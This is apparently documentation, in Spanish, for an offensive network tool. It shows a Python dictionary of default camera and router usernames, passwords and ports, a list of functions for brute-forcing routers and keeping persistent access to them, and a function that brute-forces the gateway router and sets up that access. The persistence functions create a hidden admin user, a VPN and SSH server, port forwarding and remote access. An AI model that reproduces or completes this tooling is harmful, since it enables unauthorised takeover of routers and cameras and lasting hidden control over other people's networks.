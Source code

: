 ```python
    'camera_users': ['admin', 'administrator', 'root', 'guest', 'user', 'camera', 'ipcam', 'webcam', 'viewer', 'operator'],
    'camera_passwords': ['admin', 'password', '123456', 'root', 'guest', '', 'camera', 'ipcam', 'webcam', 'viewer', 'operator', '1234', '12345', '123456789', 'admin123', 'password123'],
    'router_ports': [80, 443, 8080, 8443, 23, 22, 21, 161, 162],
    'router_users': ['admin', 'administrator', 'root', 'guest', 'user', 'admin', 'root', 'user', 'support', 'technician'],
    'router_passwords': ['admin', 'password', '123456', 'root', 'guest', '', 'admin', 'password', '1234', '12345', '123456', 'admin123', 'password123', 'support', 'technician']
}
```

## Funciones de Router y Persistencia de Red

### Acceso al Router
- `_access_router_and_configure_persistence()`: Función principal para acceso al router
- `_detect_router_type()`: Detecta el tipo/marca del router
- `_brute_force_router_credentials()`: Fuerza bruta específica para routers
- `_configure_router_persistence()`: Configura persistencia en el router
- `_create_router_admin_user()`: Crea usuario administrativo persistente
- `_configure_port_forwarding()`: Configura port forwarding
- `_configure_vpn_server()`: Configura servidor VPN en el router
- `_configure_remote_access()`: Habilita acceso remoto
- `_backup_router_config()`: Hace backup de la configuración

### Persistencia de Red
- `_configure_network_persistence()`: Función principal de persistencia de red
- `_setup_persistent_ssh_server()`: Configura servidor SSH persistente
- `_setup_persistent_vpn_server()`: Configura servidor VPN propio
- `_setup_persistent_web_server()`: Configura panel web de administración

```python
def _access_router_and_configure_persistence(self) -> List[Dict[str, Any]]:
    """Acceder al router y configurar persistencia de red"""
    router_access = []
    
    # Obtener gateway detectado
    gateway = self.network_config.get('gateway')
    
    # Detectar tipo de router
    router_type = self._detect_router_type(gateway)
    
    # Intentar credenciales por defecto
    router_credentials = self._brute_force_router_credentials(gateway)
    
    if router_credentials:
        # Configurar acceso persistente al router
        router_config = self._configure_router_persistence(gateway, router_credentials, router_type)
        
        router_access.append({
            'gateway': gateway,
            'router_type': router_type,
            'credentials': router_credentials,
            'configuration': router_config,
            'timestamp': time.time()
        })
    
    return router_access
```
